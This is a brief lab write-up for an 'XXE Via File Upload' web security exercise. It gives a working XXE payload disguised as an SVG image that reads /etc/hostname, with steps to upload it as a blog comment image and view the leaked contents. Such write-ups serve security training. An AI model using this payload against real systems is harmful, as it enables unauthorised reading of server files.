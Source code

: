 # XXE Via File Upload

Use the following payload that appears to be an svg image but contains XXE payload:

```XML
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

Save it into a file and upload it into the blog comment:

![[XXE/Labs/XXE Via File Upload/images/payload.png]]

Finally check the comment image to obtain the lab solution:

![[img.png]]

![[XXE/Labs/XXE Via File Upload/images/exploited.png]]


de16a00eb7f8

